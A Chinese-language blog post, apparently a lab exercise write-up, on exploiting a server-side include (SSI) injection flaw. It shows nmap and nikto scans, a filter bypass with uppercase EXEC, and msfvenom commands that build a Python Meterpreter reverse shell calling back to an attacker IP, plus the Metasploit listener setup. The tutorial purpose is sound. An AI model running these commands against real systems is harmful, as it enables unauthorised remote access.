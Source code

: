 ```yaml
---
title: 【网络安全0x09】SSI漏洞注入
date: 2020-06-11 17:53:08
tags: [网络安全, ssi, metasploit]
---
```


51CTO的网课，本篇利用nmap搜索开放端口，nikto、dirb挖掘敏感目录，利用SSI漏洞进行代码注入，执行python反弹shell，使用metasploit监听，获得shell。

本篇使用工具metasploit。

<!-- more -->

# 使用命令

## SSI

SSI 注入全称Server-Side Includes Injection，即服务端包含注入。SSI 是类似于 CGI，用于动态页面的指令。SSI 注入允许远程在 Web 应用中注入脚本来执行代码。

SSI是嵌入HTML页面中的指令，在页面被提供时由服务器进行运算，以对现有HTML页面增加动态生成的内容，而无须通过CGI程序提供其整个页面，或者使用其他动态技术。

从技术角度上来说，SSI就是在HTML文件中，可以通过注释行调用的命令或指针，即允许通过在HTML页面注入脚本或远程执行任意代码。

## metasploit

``` bash
#生成shell
msfvenom -p python/meterpreter/reverse_tcp lhost=攻击机IP lport=攻击机端口 -f raw > shell.py

#开启监听
msfconsole
>use exploit/multi/handler
>set payload python/meterpreter/reverse_tcp
>set lhost 攻击机IP
>set lport 攻击机端口
>run
```

# 渗透记录

1. nmap扫描靶机IP地址开放端口，一个web服务，`nikto`挖掘`80`端口web信息：

``` bash
nmap -sV 192.168.1.118
nikto -host http://192.168.1.118/
```

![](./1060/1.PNG)

2. 访问页面，`.shtml`的后缀可能有ssi漏洞可以利用：

![](./1060/2.PNG)

![](./1060/3.PNG)

3. 测试命令，大写`EXEC`绕过过滤：

![](./1060/4.PNG)

4. 生成shell：

``` bash
msfvenom -p python/meterpreter/reverse_tcp lhost=192.168.1.114 lport=4444 -f raw > shell.py
```

![](./1060/5.PNG)

5. 开启监听：

``` bash
msfconsole
>use exploit/multi/handler
>set patload python/meterpreter/reverse_tcp
>set lhost 192.168.1.114
>run
```

![](./1060/6.PNG)

6. 复制shell到apache根目录下，开启apache服务：

![](./1060/7.PNG)

7. 网页SSI注入命令下载shell脚本：

![](./1060/8.PNG)

8. 修改shell脚本权限，增加可执行权限：

![](./1060/9.PNG)

9. 注入执行命令，msf获得反弹shell：

![](./1060/10.PNG)

10. 官方教程说本机没有设置flag，不过权限不够也访问不了`/root`，尝试提权无从下手，太菜了，以后再回来看看。

# 参考资料

1. [2020发布 CTF基础入门/CTF教程零基础 渗透测试/web安全/CTF夺旗【整套教程】](https://www.bilibili.com/video/BV1SJ411h7VW)
2. [SSI注入漏洞](https://blog.csdn.net/qq_40657585/article/details/84260844)